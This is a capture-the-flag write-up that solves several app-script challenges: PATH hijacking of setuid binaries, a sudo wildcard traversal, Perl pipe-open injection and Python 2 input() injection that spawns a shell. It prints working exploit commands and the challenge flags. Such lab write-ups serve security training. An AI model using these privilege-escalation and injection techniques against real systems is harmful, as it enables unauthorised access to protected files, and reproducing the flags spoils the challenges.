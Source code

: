 # Bash - System 1
Source 
```C
#include <stdlib.h>
#include <stdio.h>
 
/* gcc -m32 -o ch11 ch11.c */
 
int main(void) 
{
	system("ls /challenge/app-script/ch11/.passwd"); 
	return 0;
}
```
Solve
```assembly
app-script-ch11@challenge02:/tmp/tmp1$ mkdir /tmp/tmp1/
mkdir: cannot create directory ‘/tmp/tmp1/’: File exists
app-script-ch11@challenge02:/tmp/tmp1$ export PATH="/tmp/tmp1:${PATH}"
app-script-ch11@challenge02:/tmp/tmp1$ ln -s /bin/cat ls
ln: failed to create symbolic link ‘ls’: File exists
app-script-ch11@challenge02:/tmp/tmp1$ ~/ch11
!oPe96a/.s8d5
```

Flag is : ```!oPe96a/.s8d5```

# sudo - weak configuration

by using the command : `sudo -l` We can see our rights in the sudo world. And as the command says :
```assembly
app-script-ch1@challenge02:~$ sudo -l
Matching Defaults entries for app-script-ch1 on challenge02:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, !mail_always, !mail_badpass, !mail_no_host, !mail_no_perms, !mail_no_user

User app-script-ch1 may run the following commands on challenge02:
    (app-script-ch1-cracked) /bin/cat /challenge/app-script/ch1/ch1/*
```
’*’ being a good soldier, it can be replaced by everything... even ’../’
So, to get the file /shell1cracked/.flag we can use :
```assembly
app-script-ch1@challenge02:~$ sudo -u app-script-ch1-cracked  cat /challenge/app-script/ch1/ch1/../ch1cracked/.passwd
b3_c4r3full_w1th_sud0
```
Flag is : ```b3_c4r3full_w1th_sud0```

# Bash - System 2
Source:

```C
#include <stdlib.h>
#include <stdio.h>
 
int main(){
	system("ls -lA /challenge/app-script/ch12/.passwd");
	return 0;
}
```
Solve 0x1:
```assembly
app-script-ch12@challenge02:~$ mkdir /tmp/pwnd
app-script-ch12@challenge02:~$ cp /bin/nano /tmp/pwnd/ls
app-script-ch12@challenge02:~$ export PATH=/tmp/pwnd:$PATH
app-script-ch12@challenge02:~$ ./ch12
```
Solve 0x2:
```assembly
app-script-ch12@challenge02:~$ mkdir /tmp/pwnd1 ; cd /tmp/pwnd1
app-script-ch12@challenge02:/tmp/pwnd1$ nano pwn.c
app-script-ch12@challenge02:/tmp/pwnd1$ g++ pwn.c -o pwn
app-script-ch12@challenge02:/tmp/pwnd1$ export PATH=/tmp/pwnd1:$PATH
app-script-ch12@challenge02:/tmp/pwnd1$ mv pwn ls
app-script-ch12@challenge02:/tmp/pwnd1$ ~/ch12 
8a95eDS/*e_T#
```
Flag is : ```8a95eDS/*e_T#```

# Perl - Command injection
Source :

```perl
#!/usr/bin/perl

delete @ENV{qw(IFS CDPATH ENV BASH_ENV)};
$ENV{'PATH'}='/bin:/usr/bin';

use strict;
use warnings;

main();

sub main {
    my ($file, $line) = @_;

    menu();
    prompt();

    while((my $file = <STDIN>)) {
        chomp $file;

        process_file($file);

        prompt();
    }
}

sub prompt {
    local $| = 1;
    print ">>> ";
}
sub menu {
    print "*************************\n";
    print "* Stat File Service    *\n";
    print "*************************\n";
}

sub check_read_access {
    my $f = shift;

    if(-f $f) {
        my $filemode = (stat($f))[2];

        return ($filemode & 4);
    }

    return 0;
}

sub process_file {
    my $file = shift;
    my $line;
    my ($line_count, $char_count, $word_count) = (0,0,0);

    $file =~ /(.+)/;
    $file = $1;
    if(!open(F, $file)) {
        die "[-] Can't open $file: $!\n";
    }


    while(($line = <F>)) {
        $line_count++;
        $char_count += length $line;
        $word_count += scalar(split/\W+/, $line);
    }

    print "~~~ Statistics for \"$file\" ~~~\n";
    print "Lines: $line_count\n";
    print "Words: $word_count\n";
    print "Chars: $char_count\n";

    close F;
}
```
Solve:
```assembly
app-script-ch7@challenge02:~$ ./setuid-wrapper 
*************************
* Stat File Service    *
*************************
>>> | cat .passwd
~~~ Statistics for "| cat .passwd" ~~~
Lines: 0
Words: 0
Chars: 0
PerlCanDoBetterThanYouThink
```
Flag is : ```PerlCanDoBetterThanYouThink```

Source :
```python
#!/usr/bin/python2
 
import sys
 
def youLose():
    print "Try again ;-)"
    sys.exit(1)
 
 
try:
    p = input("Please enter password : ")
except:
    youLose()
 
 
with open(".passwd") as f:
    passwd = f.readline().strip()
    try:
        if (p == int(passwd)):
            print "Well done ! You can validate with this password !"
    except:
        youLose()
```
Now we know that the flag located in .passwd is just a set of numbers and if your input matched this numbers it will print ```Well done ! You can validate with this password !``` so i first tryed to buruteforce
```bash
#!/bin/bash

i=0;
while true; do
   echo 'echo '"$i"' | /challenge/app-script/ch6/setuid-wrapper'
   if [[ $(echo $i | /challenge/app-script/ch6/setuid-wrapper) =~ "Well done " ]] ; then
       echo "$i is the password";
        break;
   fi
   let i++
done

```
but it seemed like it will take forever so it exploited it.
```assembly
app-script-ch6@challenge02:~$ ./setuid-wrapper 
Please enter password : __import__("os").execl("/bin/sh","sh")
$ cat .passwd
13373439872909134298363103573901
$ 
```
Flag is ```13373439872909134298363103573901```
